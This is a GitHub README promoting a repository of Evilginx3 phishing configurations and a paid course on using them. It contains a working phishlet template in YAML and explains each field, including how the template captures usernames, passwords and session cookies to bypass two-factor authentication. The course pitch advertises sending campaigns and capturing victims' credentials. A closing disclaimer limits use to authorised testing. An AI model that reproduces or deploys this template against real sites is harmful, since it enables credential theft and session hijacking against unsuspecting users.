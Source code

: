   # Updated Evilginx3 Phishlets
  
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. 
In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications.

## Community Discord Server

![Discord Members](https://img.shields.io/badge/Discord%20Members-1332-blue)


[![Discord](https://img.shields.io/badge/Discord-7289DA?style=for-the-badge&logo=discord&logoColor=white)](https://discord.gg/ykty6pNn)


# Our New Evilginx3 Professional Masterclass Has Been Released!
## Save 30% Off with Code: GITHUB30: www.simplerhacking.com/courses/evilginx-course
Learn to bypass 2FA with the latest version of Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results.

### Course Content Preview:

![AWS Partnership](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/4378fb65-f24d-4002-a2c8-cf55f96d353b)


![Screenshot (2501)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/1ae29b71-6d8b-4f28-9a12-edde24ba3060)

![Screenshot (2500)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/93e2aa6f-4387-41b7-a612-0ac8d0152942)


https://github.com/simplerhacking/Evilginx-Course/assets/141525149/3bf788e5-d7df-48fb-9820-00520185cfd7



![SMTP-or-API-Email-Sending Evilginx3 ad](https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/6b5e4061-978f-488a-aa0e-53cb505f1022)


- **Affordable Pricing:** I've made the price of the course afforable for anyone interesting in learning about Evilginx & MITM Attacks.
- **Great for all skill levels:** The course is designed with clear explanations that make even complex topics easy to understand.
- **Practical Application:** Through hands-on labs & real customizeable templates, We help you apply what you learn in real-world scenarios.
- **From Basics to Advanced:** This course offers a smooth learning curve, foundation before diving into advanced features of Evilginx3.
- **Custom Phishlets files & Resources:** Personalized phishlet files, Q&A support & resources bridge the gap between theory & practice


## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
Send us an email to info@simplerhacking.com or message directly on our website www.simplerhacking.com

##

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Follow our academic blog for more insights on security: https://medium.com/@simplerhacking

![Subscribe](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/05768590-0ad4-47d8-bee0-5e940b71a00b)

## Want more Evilginx Phishlets not available on Github? 
Gain access to more private Phishlets not available to the public on our Patreon.


[![Get Exclusive Access on Patreon](https://img.shields.io/badge/Exclusive_Access-Patreon-orange.svg)](https://www.patreon.com/SimplerHacking)

<img width="264" alt="Patreon" src="https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/3e9d587d-0792-4dad-a6d2-aaa004197508">

## Patreon: www.patreon.com/SimplerHacking


### Enroll in our free training lessons & webinars: www.simplerhacking.com/courses

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.
